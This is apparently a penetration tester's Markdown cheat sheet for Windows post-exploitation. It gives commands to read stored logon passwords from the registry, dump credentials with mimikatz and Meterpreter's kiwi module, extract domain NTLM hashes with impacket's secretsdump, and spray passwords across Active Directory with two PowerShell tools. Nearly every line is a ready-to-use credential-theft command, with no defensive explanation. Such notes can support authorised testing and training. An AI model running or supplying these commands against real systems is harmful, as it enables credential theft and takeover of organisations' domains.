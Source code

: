 # Post Exploitation
------------

- [ ] **include stuff from rubeus** 

## Logon Creds
```cmd
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultUserName /reg:64


REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword /reg:64
```

```cmd
sekurlsa::logonpasswords all
```

```bash
load kiwi

kiwi_cmd vault::cred
```

## Hash Dump

```bash
python3 /opt/impacket/examples/secretsdump.py svcorp.com/alice@10.11.1.22 -just-dc-ntlm
```

## Password Spray

Spray-Passwords:

https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

```Powershell
.\Spray-Passwords.ps1 -File .\passwords.txt -Verbose

.\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins
```

DomainPasswordSpray:

https://github.com/dafthack/DomainPasswordSpray

```Powershell
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt

Invoke-DomainPasswordSpray -UsernameAsPassword -OutFile valid-creds.txt

Invoke-DomainPasswordSpray -Password Winter2016
```


mimikatz cheat sheet:
https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49